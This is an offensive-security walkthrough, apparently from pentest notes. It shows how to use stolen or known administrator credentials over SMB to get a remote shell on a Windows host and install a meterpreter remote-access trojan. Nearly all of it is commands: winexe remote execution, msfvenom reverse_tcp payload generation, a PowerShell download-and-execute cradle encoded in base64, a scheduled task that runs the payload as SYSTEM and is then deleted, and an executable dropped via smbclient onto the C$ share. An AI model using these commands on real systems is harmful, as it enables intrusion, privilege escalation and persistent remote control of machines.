

Using credentials, leverage SMB to get and interactive shell and (if needed) upload a RAT
SMB Connection
Winexe
Moving into a RAT
Work With: Windows
Requires: SMB access (port 445), Administrator credentials
Uses: winexe,smbclient (included in Kali)
Newer version of Windows restrict remote access to a LOCAL account. If your target is not in a domain, credentials may appear to FAIL even though they are valid. Look into LocalAccountTokenFilterPolicy for more information
Setting the key Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy to "1" will enable Local Logons. May be needed if you are setting up a test environment
winexe -U ./username%password //IP "COMMAND"
winexe --uninstall -U ./joe%password //10.0.0.6 "cmd.exe"
Note: If your cmd session dies or breaks the 'uninstall' won't happen. Run a simple single command (hostname maybe) with the uninstall switch to remove the service.
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.142.134 LPORT=4444 -f psh-cmd -o filename

Start your meterpreter listener as well.
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.142.134; set lport 4444;show options"
Next, start a python web server in the folder with the modified powershell meterpreter. We will use this to get the file to the target.
python -m SimpleHTTPServer [PORT]
With that setup, connect to the target and start a powershell session.
winexe -U ./joe%password //10.0.0.6 "powershell.exe"
From here, you can run iex(New-Object Net.WebClient).DownloadString('http://[YOURIP]:[PORT]/filename') however, that will get you a shell as a user, and you'd need to privesc. We can do better.
We will need to convert the download string to a base64 that powershell can use. DONT TRY TO USE kali base64, it comes out different. We will use powershell on the target for us.
From within your powershell prompt, paste the following (change to fit your specifics)
$Text = "iex(New-Object Net.WebClient).DownloadString('http://192.168.142.134:8080/filename')";
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
Copy the output, you'll need it in a second.
To run this as system, we are going to schedule and run a job to run as system, then delete that job.
schtasks /create /ru SYSTEM /sc once /st 23:59 /tn TASK_NAME /tr "powershell.exe -nop -e [encoded string]"
schtasks /run /tn TASK_NAME
schtasks /delete /tn TASK_NAME /F
You should see a hit on the python web server requesting the file, followed my a connection to your meterpreter handler. Run a GETUID and you'll see you're now system. Profit.
This method writes an EXE to disk. While this isn't always ideal, sometimes it is needed.
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.142.134 LPORT=4444 -f exe -o win_exe
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.142.134; set lport 4444;show options"
smbclient -U joe -L //10.0.0.6
smbclient -U joe //10.0.0.6/C$
put /root/win_exe windows\temp\win.exe